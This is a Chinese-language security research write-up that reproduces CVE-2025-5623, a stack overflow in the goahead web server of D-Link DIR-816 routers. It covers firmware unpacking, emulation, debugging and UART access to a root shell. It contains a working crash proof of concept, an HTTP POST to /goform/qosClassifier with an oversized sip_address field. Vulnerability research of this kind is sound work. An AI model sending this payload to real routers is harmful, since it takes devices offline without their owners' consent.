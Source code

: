 # CVE-2025-5623 DIR816 路由器栈溢出复现

## 路由器漏洞分析

在官网下载对应版本固件

https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

固件：
[DIR-816A2_FWv1.10CNB05_R1B011D88210.img](imgs/DIR-816A2_FWv1.10CNB05_R1B011D88210.img)

使用 `binwalk` 查看信息，没有加密对其直接进行解包，提取出系统进行分析。

```bash
binwalk -Me DIR-816A2_FWv1.10CNB05_R1B011D88210.img
find ./ -iname 'busybox'
cp -r ./extractions/DIR-816A2_FWv1.10CNB05_R1B011D88210.img.extracted/0/Linux_Kernel_Image.bin.extracted/1822EE/squashfs-root/ .
```

![image](.pictures/CVE-2025-5623-1-1.png)

这个漏洞存在于 `/bin/goahead` 程序中 `isIpNetmaskValid` 函数中，由于主调函数的 `sip_address` 和 `dip_address` 参数可控，在其后传参并调用的此函数中，直接对字符串进行了写入操作，无论传入参数长如为何，都会被复制到 `local_30` 变量中，涉及到有危险的入口函数有三个 `FUN_0044ab48` `FUN_0044dde8` 和 `FUN_0046bb80`，在这里我使用了 `FUN_0046bb80` 进行漏洞复现。

( `FUN_0046bb80` 中，关于 `sip_address` 和 `dip_address` 的获取。 )

![image](.pictures/CVE-2025-5623-1-2.png)

( `FUN_0046bb80` 中，将 `sip_address` 和 `dip_address` 传入危险函数。 )

![image](.pictures/CVE-2025-5623-1-3.png)

( `isIpNetmaskValid` 中，漏洞片段。 )

![image](.pictures/CVE-2025-5623-1-4.png)

也就是我们可以使用 `sip_address` 或 `dip_address` 参数，对其进行栈溢出攻击。接着，我们去寻找漏洞的接口点，首先，根据后面的判定写一些padding保证程序能够向下运行到目标函数，然后补充最简单的漏洞测试脚本。

![image](.pictures/CVE-2025-5623-1-5.png)

得到的必须参数：

```nginx
dir=A&af_index=A&dp_index=A&comment=A&pktlento=A&pktlenfrom=Aremark_dscp=A&sip_address=vul
```

然后，对交叉引用进行跟踪，发现函数 `formDefineFirewall` 定义了相关的接口调用。

![image](.pictures/CVE-2025-5623-1-6.png)

于是，我们可以了解最终调用的接口是 `/goform/qosClassifier` ，最终包为：

```
POST /goform/qosClassifier HTTP/1.1
Content-Length: 471
Host: 192.168.1.2
Content-Type: application/x-www-form-urlencoded
Connection: close

dir=A&af_index=A&dp_index=A&comment=A&pktlento=A&pktlenfrom=Aremark_dscp=A&sip_address=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

## 漏洞模拟复现分析

我们使用qemu user进行仿真模拟：

```bash
sudo chroot . ./qemu-mipsel-static -strace ./bin/goahead
```

然后对所有出现的报错进行patch修改，即使能看到多出天际的报错，至少是跑起来了，毕竟和真机的环境差了十万八千里。反正在咸鱼花费15巨资买了真机，在这里运行起来便是完事大吉。

![image](.pictures/CVE-2025-5623-2-1.png)

我们使用 burp 对主页抓包，然后修改内容为我们的目标包：

![image](.pictures/CVE-2025-5623-2-2.png)

可以看到我们仿真的程序出现了segmentation fault，应该是栈溢出的结果。

![image](.pictures/CVE-2025-5623-2-3.png)

我们使用gdb进行进一步的调试,将断点设置在最后的函数上：

```bash
sudo chroot . ./qemu-mipsel-static -strace -g 1234 ./bin/goahead
```

```bash
gdb-multiarch ./bin/goahead
set architecture mips
target remote :1234

b isIpNetmaskValid
c
```

![image](.pictures/CVE-2025-5623-2-4.png)

此时，使用burp再次发包，观察断点，可以发现，此时栈上以及被我们写满了'AAAA'。确认是我们刚刚的payload生效才导致的栈溢出和segmentation fault。

![image](.pictures/CVE-2025-5623-2-5.png)

## 真机漏洞复现和调试

在海鲜市场花费15包邮淘了一个 DIR816 路由器，看起来还是很新的，是和漏洞同版本的 A2 国版。可以看到，所有的服务看起来都可以正常运行（至少看起来是这样）

![image](.pictures/CVE-2025-5623-3-2.png)

先测试一下固件漏洞是否相同，找一个post请求写入我们的payload，进行测试，可以看到web服务直接下线了，证明此固件版本是存在这个漏洞的。

![image](.pictures/CVE-2025-5623-3-3.png)

![image](.pictures/CVE-2025-5623-3-4.png)

![image](.pictures/CVE-2025-5623-3-5.png)

为了进一步进行调试，我们需要使用电烙铁焊接路由器的调试口，然后使用FT232对电脑进行连接。

### 真机调试环境安装

在这个网站下载所需的
[https://ftdichip.com/drivers/vcp-drivers/)](https://ftdichip.com/drivers/vcp-drivers/)

安装 `minicom` 调试器

```bash
sudo apt install -y minicom cutecom
```

首先，使用电烙铁和吸锡器清除调试口上的锡，接着，开机测量GND和其他点的电压，依次确认调试口分别为： VCC GND TX RX，如 图 3-6 3-7 所示，再使用电烙铁将4PIN直排针焊上。

（关于如何判断UART口的线序：关机状态下使用万用表蜂鸣档连接天线，连通的通常为GND。然后将万用表调为支流电压模式，黑色表笔插入GND口，将路由器开机。红色表笔依次放在其他接口中，VCC口通常会给出一个持续、稳定的电压；TX口也会给出一个电压，但是并不总是稳定（有信号输出时会变化）；RX口往往会保持0V，因为这是路由器接收输入的接口。

注意，优先判断调试口的类型而非进行直排针的焊接，焊接后开机测量时容易误触导致短路。

原图链接 .pictures/CVE-2025-5623-3-6-ori.png
原图链接 .pictures/CVE-2025-5623-3-7-ori.png


![image](.pictures/CVE-2025-5623-3-6.png)

![image](.pictures/CVE-2025-5623-3-7.png)

接着，将引脚按照如下顺序，依次从路由器UART口连接到FT232对应的引脚上，再将其插入电脑，使用自带电源开启路由器后，可以看到已经连接的/dev/ttyUSB0。

```
路由器  FT232
VCC - VCC # 绿色线
GND - GND # 黄色线
TX - RX # 橙色线
RX - TX # 黑色线
未使用 # 红色
未使用 # 蓝色
```

![image](.pictures/CVE-2025-5623-3-8.png)

接着，我们可以使用 cutecom 连接，将设备设置为/etc/ttyUSB0，比特率57600。再将路由器重新开机，即可看到信息：

![image](.pictures/CVE-2025-5623-3-9.png)

可以看到，我们从这里连接shell时用户的id为0，拥有最高的权限。

![image](.pictures/CVE-2025-5623-3-10.png)

---

参考资料：
- https://paper.seebug.org/1036/
